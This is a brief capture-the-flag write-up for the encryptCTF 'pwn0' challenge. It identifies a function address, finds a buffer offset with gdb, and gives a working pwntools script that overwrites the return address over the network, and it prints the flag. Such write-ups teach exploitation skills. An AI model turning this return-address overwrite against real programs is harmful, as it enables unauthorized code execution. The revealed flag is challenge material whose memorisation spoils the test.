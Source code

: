 # pwn0

This challenge was a classic buffer overflow. All was required was the overwriting of the the return addr.

By analysing the binary we find the address for ```print_flag()```

```
0x080484dd  print_flag
```

And using ```gdb``` to find the offset

```
1095385409 found at offset: 80
```

This together gives us this exploit code

```python
from pwn import *

r = remote('104.154.106.182', 1234)

# Payload creation
junk = b'A' * 80
print_flag = p32(0x80484dd)

payload = junk + print_flag

r.recvuntil("josh?")
r.sendline(payload)
r.interactive()
```

```
FLAG: encryptCTF{L3t5_R4!53_7h3_J05H}
```

